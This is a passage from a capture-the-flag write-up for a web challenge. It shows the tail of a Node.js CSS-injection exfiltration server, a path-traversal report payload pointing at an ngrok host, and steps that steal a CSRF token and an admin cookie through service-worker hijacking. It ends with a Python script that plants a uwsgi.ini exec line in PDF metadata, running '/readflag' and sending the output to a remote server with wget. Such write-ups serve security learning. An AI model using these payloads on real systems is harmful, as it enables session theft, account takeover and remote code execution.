                background-color: #d4edda;
                border-color: #c3e6cb;
                padding: 0.75rem 1.25rem;
                border: 1px solid transparent;
            content: "The content on the webpage has been successfully exfiltrated and sent to a remote server. \\0a This is what has been extracted:\\0a ${extractedValues}";
            position:fixed;
            left:0;
            top:100px;
            padding:5px;
            width: 100%;
            height: calc(100% - 100px);
            overflow: auto;
            white-space: pre;
            font-family:Arial;
            box-sizing: border-box;
            z-index: 2147483647;
        }
    `);

    response.end();
    destroySession(request);

    // ----------------------------------------------${escapeCSS(value)}-------------
}

function generateNotSelectors(tokens, elementName, attributeName) {
    let selectors = "";
    if (!tokens.length) {
        return '';
    }
    for (const tokenObject of tokens) {
        if (tokenObject.tag === elementName && tokenObject.attribute === attributeName) {
            selectors += ':not(' + elementName + '[' + escapeCSS(tokenObject.attribute) + '="' + escapeCSS(tokenObject.value) + '"])';
        }
    }
    return selectors;
}

function getIP(request) {
    let remoteIp = request.socket.remoteAddress;
    if (typeof remoteIp !== 'undefined' && !remoteIp.includes("127.0.0.1") && remoteIp !== "::1") {
        return remoteIp;
    }
    if (typeof request.headers['x-forwarded-for'] === 'string') {
        let ips = request.headers['x-forwarded-for'].split(',');
        return ips.pop().trim();
    }
    return "127.0.0.1";
}

function deleteOldSessions(amount) {
    var i = 0;
    for (var k of session.keys()) {
        if (i++ > amount) {
            break;
        }
        session.delete(k);
    }
}

function hasSession(ip) {
    if (session.has(ip)) {
        const settings = session.get(ip);
        if (settings.has('init') && settings.get('init')) {
            return true;
        }
    }
    return false;
}

function getPrefix(element, attribute, elementNumber) {
    return 'p_' + element[0] + attribute[0] + elementNumber;
}

function int(number, max) {
    number = +number;
    return Number.isNaN(number) ? 0 : Math.min(number, max);
}
```

This script has been updated in a bad way so it works with the challenge, (Kindly update all occurrences of ngork URL) let's start a `ngrok` server and add a product.

We can use the following payload



and once the product is added. Let's use the following payload to report it

```http
1../../../external?url=[ngrok_url]
```

After waiting for 1-2 mins we should get output like this 



This is the CSRF token and the CSRF is exploited, now we report a random product again so it triggers service worker hijacking, and we should get a cookie in our node server



Now we have access to admin settings as well



### UWSGI configuration overwrite RCE

Taking a look at this new functionality defined in `blueprints/api.py`

```python
@api.route('/addContract', methods=['POST'])
@isAuthenticated
@isVerified
@isInternal
@isAdmin
@antiCSRF
@sanitizeInput
def addContract(decodedToken):
    name = request.form.get('name', '')

    uploadedFile = request.files['file']

    if not uploadedFile or not name:
        return response('All files required!')
    
    if uploadedFile.filename == '':
        return response('Invalid file!')

    uploadedFile.save('/tmp/temporaryUpload')

    isValidPDF = checkPDF()

    if isValidPDF:
        try:
            filePath = os.path.join(current_app.root_path, 'contracts', uploadedFile.filename)
            with open(filePath, 'wb') as wf:
                with open('/tmp/temporaryUpload', 'rb') as fr:
                    wf.write(fr.read())

            return response('Contract Added')
        except Exception as e:
            print(e, file=sys.stdout)
            return response('Something went wrong!')
    
    return response('Invalid PDF! what are you trying to do?')
```

We can see it takes a PDF file and a name, validates the PDF, and simply stores it in the `contracts` folder, there is no sanitization in the PDF name so we can exploit Arbitrary file write but we can only overwrite PDF. We can follow the [following blog](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html) and get RCE via overwriting the `uwsgi.ini` file first and then overwriting any python file to trigger `uwsgi.ini` reload

```python
from fpdf import FPDF
from exiftool import ExifToolHelper

with ExifToolHelper() as et:
    et.set_tags(
        ["test.jpeg"],
        tags={"model": "&#x0a;[uwsgi]&#x0a;foo = @(exec://wget [REMOTE SERVER]?flag=$(/readflag))&#x0a;"},
        params=["-E", "-overwrite_original"]
    )

class MyFPDF(FPDF):
    pass

pdf = MyFPDF()

pdf.add_page()
pdf.image('./test.jpeg')
pdf.output('payload.pdf', 'F')
```

and we got the flag


